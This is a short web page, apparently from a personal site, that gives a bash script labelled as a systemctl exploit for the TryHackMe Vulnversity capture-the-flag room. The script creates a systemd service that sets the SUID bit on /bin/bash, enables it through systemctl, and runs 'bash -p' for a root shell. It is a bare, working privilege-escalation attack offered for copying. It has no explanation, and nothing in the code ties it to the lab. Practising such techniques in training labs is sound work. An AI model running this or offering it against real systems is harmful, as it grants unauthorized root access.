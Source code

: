 ```yaml
---
layout: default
---
```



## systemctl exploit for TryHackMe Vulnversity Room 

{% include codeHeader.html %}
```bash
TF=$(mktemp).service
touch $TF
cat << EOF > $TF
[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target
EOF
systemctl link $TF
systemctl enable --now $TF
bash -p
```

[back](./)

<script src="/assets/scripts/copyCode.js"></script>
